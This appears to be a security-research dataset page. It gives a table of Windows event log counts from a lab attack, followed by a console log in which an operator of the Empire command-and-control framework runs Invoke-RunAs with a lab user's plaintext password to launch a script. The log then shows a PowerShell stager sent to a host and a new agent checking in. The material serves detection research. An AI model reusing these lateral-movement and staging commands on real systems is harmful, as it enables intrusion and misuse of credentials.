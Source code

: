| Security                                   | Microsoft-Windows-Security-Auditing | Kerberos Service Ticket Operations                     |               1 |
| Microsoft-Windows-WMI-Activity/Operational | Microsoft-Windows-WMI-Activity      | na                                                     |              42 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Registry object added or deleted (rule: RegistryEvent) |             466 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process accessed (rule: ProcessAccess)                 |             419 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Image loaded (rule: ImageLoad)                         |             363 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Network connection detected (rule: NetworkConnect)     |             135 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Pipe Connected (rule: PipeEvent)                       |              20 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | File created (rule: FileCreate)                        |              15 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process Create (rule: ProcessCreate)                   |               6 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | RawAccessRead detected (rule: RawAccessRead)           |               4 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Registry value set (rule: RegistryEvent)               |               4 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process terminated (rule: ProcessTerminate)            |               3 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Pipe Created (rule: PipeEvent)                         |               1 |
| Microsoft-Windows-PowerShell/Operational   | Microsoft-Windows-PowerShell        | Executing Pipeline                                     |             325 |
| Microsoft-Windows-PowerShell/Operational   | Microsoft-Windows-PowerShell        | PowerShell Console Startup                             |               2 |
| Microsoft-Windows-PowerShell/Operational   | Microsoft-Windows-PowerShell        | Execute a Remote Command                               |               1 |
| Microsoft-Windows-PowerShell/Operational   | Microsoft-Windows-PowerShell        | PowerShell Named Pipe IPC                              |               1 |
| Microsoft-Windows-PowerShell/Operational   | Microsoft-Windows-PowerShell        | Starting Command                                       |               1 |

## Attacker Activity

```
(Empire: TKV35P8X) > scriptimport /tmp/invoke-runas-cmd.ps1
[*] Tasked TKV35P8X to run TASK_SCRIPT_IMPORT
[*] Agent TKV35P8X tasked with task ID 22
script successfully saved in memory

(Empire: TKV35P8X) > scriptcmd Invoke-RunAs -username pgustavo -password "W1n1!19" -domain shire -Cmd cmd.exe -Arguments "/c C:\windows\system32\autoupdate.vbs"

[*] Tasked TKV35P8X to run TASK_SCRIPT_COMMAND
[*] Agent TKV35P8X tasked with task ID 23
(Empire: TKV35P8X) > Job started: G16X7P

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                   
-------  ------    -----      -----     ------     --  -- -----------                                                   
     18       4     1528       1200       0.00   6732   1 cmd                                                           


[*] Sending POWERSHELL stager (stage 1) to 10.0.10.103
[*] New agent V6W3TH8Y checked in
[+] Initial agent V6W3TH8Y from 10.0.10.103 now active (Slack)
[*] Sending agent (stage 2) to V6W3TH8Y at 10.0.10.103

(Empire: TKV35P8X) > agents

[*] Active agents:

```